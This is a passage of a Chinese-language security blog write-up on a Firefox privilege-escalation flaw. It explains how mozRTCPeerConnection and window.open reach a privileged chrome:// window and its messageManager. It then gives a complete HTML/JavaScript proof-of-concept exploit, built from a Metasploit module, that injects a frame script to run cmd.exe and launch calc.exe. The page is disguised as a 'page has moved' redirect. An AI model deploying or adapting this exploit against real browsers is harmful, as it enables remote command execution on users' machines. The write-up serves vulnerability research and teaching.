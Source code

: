 当open的第三个参数有传入”chrome”的话，并且在拥有特权的[docshell](http://www-archive.mozilla.org/projects/embedding/docshell.html)下调用，那么我们的URL就会以“top-level frame”的形式被打开（形似“首选项”那种页面），并且没有传统的document对象（就是一个白白的面板）。这样的窗口，拥有一个messageManager属性，能够访问其他docshell（特权是通行的~嘿）：

```
// abuse vulnerability to open window in chrome://  
var c = new mozRTCPeerConnection;  
c.createOffer(function(){},function(){  
    var w = window.open('chrome://browser/content/browser.xul', 'top', 'chrome');  

    // we can now reference the `messageManager` property of the window's parent  
    alert(w.parent.messageManager)  
});  

```

messageManager是firefox中的特权API，能够在线程间传递信息。同样，javascript也是可以传递的，方式是使用loadFrameScript函数。

0x05 命令执行
=========

* * *

作者其实这块写的特别简略，直接告诉我可以怎样写metasploit exploit，可明明POC都没告诉我呀！！对于我这种没开发过firefox插件、没读过源码的通知简直就……我想到一张操蛋的图：

![enter image description here](http://drops.javaweb.org/uploads/images/1af6fd60259291ab7358dd75f34d8750f9619744.jpg)

对，就像这样……

于是我更新了metasploit，生成了一个exploit来研究。得出了如下的POC：

```
<!doctype html>
<html>
<body>
<script>
var opts = {"zqwessa123": "\n         (function(){var process = Components.classes[\"@mozilla.org/process/util;1\"].createInstance(Components.interfaces.nsIProcess);var sh = Components.classes[\"@mozilla.org/file/local;1\"].createInstance(Components.interfaces.nsILocalFile);sh.initWithPath(\"C:\\\\windows\\\\system32\\\\cmd.exe\");process.init(sh);\nvar shell='calc.exe';var args = [\"\/c\", shell];\n process.run(true, args, args.length);})();\n\n"};
var key = opts['zqwessa123'];
var props = {};
props.has = function(n){
    if (!window.top.x && n=='nodeType') {
      window.top.x=window.open("chrome://browser/content/browser.xul", "x",
        "chrome");
      if (window.top.x) {
        Object.setPrototypeOf(document, pro);
        setTimeout(function(){
          x.location='data:text/html,<iframe mozbrowser src="about:blank"></iframe>';
          setTimeout(function(){
            x.messageManager.loadFrameScript('data:,'+key, false);
            setTimeout(function(){
                x.close();
            },100);
          }, 100)
        }, 100);
      }
    }
}
var pro = Object.getPrototypeOf(document);
Object.setPrototypeOf(document, Proxy.create(props));
</script>

  The page has moved. <span style='text-decoration:underline;'>Click here</span> to be redirected.
</body>
</html>
```